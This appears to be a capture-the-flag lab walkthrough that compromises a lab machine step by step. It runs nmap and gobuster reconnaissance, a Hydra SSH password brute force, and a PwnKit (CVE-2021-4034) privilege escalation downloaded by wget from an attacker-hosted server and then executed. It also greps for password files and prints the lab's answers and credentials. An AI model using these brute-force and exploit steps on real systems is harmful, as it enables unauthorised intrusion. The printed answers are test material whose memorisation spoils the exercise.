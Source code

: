 ### Find the services exposed by the machine
```BASH
sudo nmap -sV 10.10.26.17
```
![image](https://github.com/user-attachments/assets/c12abb48-bb66-4ff5-962a-397cdf2aab0a)

<span style="line-height:0.5;">&nbsp;</span>

### What is the name of the hidden directory on the web server(enter name without /)?
```BASH
gobuster dir -u "http://10.10.26.17/" -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -t 64
```
![image](https://github.com/user-attachments/assets/a6679aca-3502-417e-8011-9aee2b27c060)

<pre>development</pre>

<span style="line-height:0.5;">&nbsp;</span>

### User brute-forcing to find the username & password
From the Nmap scan you can see that port 8080 is open. The server is running `Apache Tomcat/9.0.7`, and the URL `/manager/html` is accessible.

![image](https://github.com/user-attachments/assets/798851bc-dac7-4bc1-81b9-e39575c0290e)  

The fact that `http://10.10.26.17:8080/manager/html` prompts for authentication confirms that the Tomcat Manager interface is enabled.

<span style="line-height:0.5;">&nbsp;</span>

Run enum4linux:
```BASH
enum4linux -a 10.10.26.17
```
![image](https://github.com/user-attachments/assets/6cb0e81f-98cb-4770-89ea-71451c420cb5)  

<span style="line-height:0.5;">&nbsp;</span>

Run Hydra:
```BASH
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.26.17 ssh
```

<span style="line-height:0.5;">&nbsp;</span>

What is the username? What is the password?
<pre>jan</pre>
<pre>armando</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What service do you use to access the server(answer in abbreviation in all caps)?
<pre>SSH</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What is the name of the other user you found(all lower case)?
<pre>kay</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What is the final password you obtain?
Now you can login as jan.
```BASH
ssh jan@10.10.134.179
```
From the screenshot, you can confirm that jan has no sudo privileges at all — not even to list allowed commands. This user is completely blocked from escalating via sudo.

![image](https://github.com/user-attachments/assets/9c37f154-1877-47a0-a92b-9c9d20941fad)
![image](https://github.com/user-attachments/assets/27020f18-8c28-4466-ae1e-35751639e86e)

Since vim didn't work for privesc, go back to your list of SUID binaries:
```BASH
ls -l /usr/bin/pkexec
```

![image](https://github.com/user-attachments/assets/a774ea6d-3c95-474f-8f24-c3682d455fac)  

pkexec is SUID and dated Jan 2016. This version is vulnerable to [CVE-2021-4034 (PwnKit)](https://ubuntu.com/security/cve-2021-4034).

### On the attacker machine
Download, compile, and zip the exploit:
```BASH
git clone https://github.com/berdav/CVE-2021-4034.git
cd CVE-2021-4034
make
tar czf pwnkit.tar.gz CVE-2021-4034/
```
![image](https://github.com/user-attachments/assets/057c5997-9621-43fb-a172-2f5cdc2f6ffa)

Start a local HTTP server.
```BASH
sudo python3 -m http.server 9000
```
![image](https://github.com/user-attachments/assets/80bf24ec-2969-4f24-9827-f72c39d9344c)

### On the victim machine:
```BASH
cd /tmp
wget http://10.10.151.188:9000/pwnkit.tar.gz
tar xzf pwnkit.tar.gz
cd CVE-2021-4034
./cve-2021-4034
```
![image](https://github.com/user-attachments/assets/94ada5d6-5561-4037-ade8-6e8372c83933)

Run this command to search through all files in /root and /home, looking for anything that contains: `pass` or `flag`.
```BASH
grep -rE "pass|flag" /root /home 2>/dev/null
```
![image](https://github.com/user-attachments/assets/66de4a59-218f-4e8d-9c7e-e50c15a8daf6)

At the bottom, you’ll see: `/home/kay/pass.bak:heresareallystrongpasswordthatfollowsthepasswordpolicy$$`. Final password:
<pre>heresareallystrongpasswordthatfollowsthepasswordpolicy$$</pre>


